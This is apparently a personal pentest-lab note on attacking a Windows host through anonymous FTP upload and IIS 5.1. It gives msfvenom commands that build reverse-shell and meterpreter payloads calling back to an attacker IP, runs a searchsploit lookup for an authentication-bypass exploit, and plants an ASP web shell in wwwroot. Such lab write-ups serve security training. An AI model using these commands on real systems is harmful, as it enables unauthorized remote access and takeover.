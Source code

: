 Attack Vectors _ Searchsploit

Attack Vectors / Searchsploit

# Microsoft FTP
We are able to upload files from our attack machine /tmp/dir to the target's wwwroot directory using username anonymous without any password.It allows the put command to put any files in the wwwroot. When on a browser, we can read a .txt but cannot execute an .exe. Upload to the /Scripts directory, at least you can see the files. It won't allow to execute .exe but will let you download .php
![5b5788ccdfc6122c666c8bc51fa696f6.png](:/39f2b240dcb742d5abef7b6db25bb3ad)

Create shellcode
`msfvenom -p windows/shell/reverse_tcp LHOST=192.168.119.214 LPORT=5678 -f exe > rev_shell_reverseTcp_192.168.119.214_5678.exe`
![21a5250e50c7902d138e810ebae41bb0.png](:/16b6a1a3fd3d4b6a943ba34657a7fbfd)

Transfer the reverse shell to the /tmp dir
![3ef0cc7b524b82b4ad6120fed14e9b1e.png](:/f5a8b5e38baa413d85e13b3193a3c192)




# Remote Desktop Web Connection

# Nikto scan
There are some interesting finds from Nikto that I havne't documented yet.

# Microsoft IIS 5.1
`searchsploit microsoft iis 5.1`
![5d477c6eee0d25e1a812fc78eb415619.png](:/ccf07efbb714422dacfaa18c4a2aee2e)


# 4016 - Hit Highlighting Authentication Bypass
`searchsploit -m 4016`
This file comes with some CRLF line terminators. To get rid of them, run dos2unix file.sh
`dos2unix m4016.sh`
**Still need a screenshot of the dos2unix output**

###  Let's use an asp shell found in /usr/share/webshells/asp/cmd-asp-5.1.asp
It too must be adjusted when you see errors in linebreaks after trying to run it in browser. Here is the diff:
![ab56ab458e1f108ee9ce94fb8c918c99.png](:/698ce8c211d44ad9a9e0109acbec8eb4)

### It must be transfered to wwwroot. Login as anonymous with no password, then use the put command to put it into the wwwroot directory
![e92a826753375a83b9f519be181a794f.png](:/c9b58cf3fbef4c0a9e83641a5074ec91)


### Browse to the 
![c372b546ebc936aaae1a7aefb74bad6c.png](:/648835eb658b4d86a1a56a18eab5fb89)


### What about meterpreter shell
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.214 LPORT=5678 -f asp > rev_windows_meterpreter_reverseTcp_192.168.119.214_5678_asp.asp`
![c91f0027026662949db6894265746793.png](:/840d89e160c44a939ff7828f23b49b4c)


# ASP should we write asp code?
https://asp.net-tutorials.com/basics/hello-world/








id: 66e8d5bd9bee4487af314227df3f11be
parent_id: 21292791d7a84439990b13f099353ddd
created_time: 2020-08-26T09:02:28.131Z
updated_time: 2020-08-29T19:30:31.165Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-08-26T09:02:28.131Z
user_updated_time: 2020-08-29T19:30:31.165Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1